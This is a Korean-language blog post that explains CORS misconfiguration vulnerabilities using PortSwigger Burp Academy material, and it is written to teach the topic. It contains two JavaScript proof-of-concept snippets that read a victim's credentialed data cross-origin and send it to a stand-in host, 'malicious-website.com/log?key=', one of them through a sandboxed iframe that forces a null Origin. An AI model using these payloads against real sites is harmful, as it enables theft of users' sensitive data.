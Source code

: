 ```yaml
---
layout: post
title: "Burp Academy-CORS 설명"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, CORS]
toc: true
last_modified_at: 2023-07-05 17:02:00 +0900
---
```



# CORS (cross-origin resource sharing)란?
- 웹 사이트의 리소스에 대한 접근을 컨트롤하는 브라우저 메커니즘이다. 
- 이는 동일출처정책(SOP)을 일부분 완화함으로써 가능하다. 이런 특성 때문에 잘못 구현하면 취약점을 만들어 내게 되므로 주의가 필요하다. 
- CORS는 CSRF공격에 대한 방어메커니즘이 아니다. 
- 참고로 동일출처 정책은 크로스 도메인간에 HTTP요청을 막는 것이 아니다. 대신에 HTTP 응답에 접근하는 것을 막는다. 

# 취약한 CORS 설정 패턴
## Server-generated ACAO header from client-specified Origin header
서버가 클라이언트가 보낸 Origin헤더를 무조건적으로 신뢰해서 ACAO (access-control-allow-origin)헤더에 해당 Origin을 설정해줌으로 인해,사실상 SOP가 없는 것과 마찬가지인 상태가 되는 취약점이다. 어떤 사이트에서도 이 사이트에 크로스 오리진 요청을 하고 결과에 접근할 수 있다.  

다음과 같은 코드를 실행하게 만들면 사용자의 중요정보를 탈취할 수 있다. 

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
};
```

[관련 문제 풀이]({% post_url 2023-07-04-burp-academy-cors-1 %})

## Errors parsing Origin headers
서버가 클라이언트가 보낸 Origin 헤더의 값을 화이트리스트로 관리하고 있을 때, 도메인의 일부분만 매치하는 식으로 판단하게 되면, 이 로직을 우회할 수 있는 경우가 있다. 

예를들어 서버가 Origin헤더의 값에 normal-website.com 가 포함되어 있는지 판단한다고 했을 때, normal-website.com.evil-user.net 를 보내게 되면 우회할 수 있다. 

## Whitelisted null origin value
Origin헤더에 null을 보냈을 때, 서버가 ACAO헤더에 null을 회신해준다면 sandboxed iframe를 포함한 몇 가지 트릭으로 크로스 도메인 접근이 가능해지는 경우가 있다. 

Origin헤더에 null값이 설정되는 경우는 몇 가지가 있다. 

- 크로스 오리진 리다이렉트
- serialized 된 데이터로부터의 요청
- file: 프로토콜을 사용한 요청
- 샌드박스된 크로스 오리진 요청

서버가 ACAO헤더에 null을 회신해주는 경우, 크로스도메인 접근이 가능한 것 같다. (그래야만 이 취약점이 성립한다.) 이 부분은 별도로 테스트해서 실제 내 눈으로도 확인해두고 싶다. [여기]({% post_url 2023-07-05-cors-null-test %})에서 테스트했다. 

클라이언트는 다음과 같은 iframe을 사용해 Origin이 null인 요청을 보낼 수 있다. 

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

[여기](https://www.w3schools.com/tags/att_iframe_sandbox.asp)의 설명에 의하면 iframe에 sandbox 속성이 있으면 iframe의 컨텐츠를 유니크 오리진으로부터의 것으로 취급한다고 한다. 아마 이 특징이 `Origin: null` 이 전송되는 이유인 것 같다.

sandbox 속성은 본래는 iframe을 더 안전하게 사용하기 위해 여러가지 제약을 가하는 용도인 것 같다. sandbox 속성자체만 부여하면 여러가지 제약이 자동으로 가해지는데 그 중에서 허용하고 싶은 것은 추가로 지정해주는 형태다. 예를 들면 `allow-scripts`, `allow-forms`, `allow-modals`등이다. 이 외에도 여러가지 있다. 위의 코드는 `allow-scripts allow-top-navigation allow-forms`의 세 가지 액션을 허용해주고 있다. 각각 스크립트 실행, top-level browsing context에 접근 허용(아마 iframe을 포함하는 부모 HTML에 접근할 수 있다는 의미인 것 같다.), 폼 제출을 허용한다는 의미이다. 

[관련 문제 풀이]({% post_url 2023-07-04-burp-academy-cors-2 %})

## Exploiting XSS via CORS trust relationships
CORS 설정에 문제가 없다고 해도 신뢰하고 있는 사이트측에 XSS취약점이 있다면 그 사이트의 취약점으로 인해 인증정보가 누출되는 경우가 생긴다. 

## Breaking TLS with poorly configured CORS
서버가 HTTP프로토콜인 Origin헤더도 신뢰하는 경우, MITM공격으로 통신정보가 도청 및 변조되는 경우가 생길 수 있다. 

## Intranets and CORS without credentials
인트라넷의 중요 정보를 제공하는 서버의 CORS 설정이 Wildcard로 되어 있고, IP제한으로 보호하고 있는 경우 (사내인트라넷 IP라면 액세스 가능한 경우), 인터넷상의 유저를 XSS로 공격하는 것으로 인트라넷의 중요 정보가 누출될 수 있다. 


# 참고 
- https://portswigger.net/web-security/cors
- https://www.w3schools.com/tags/att_iframe_sandbox.asp
- https://qiita.com/mzmz__02/items/f1187e86c175de5aec0b
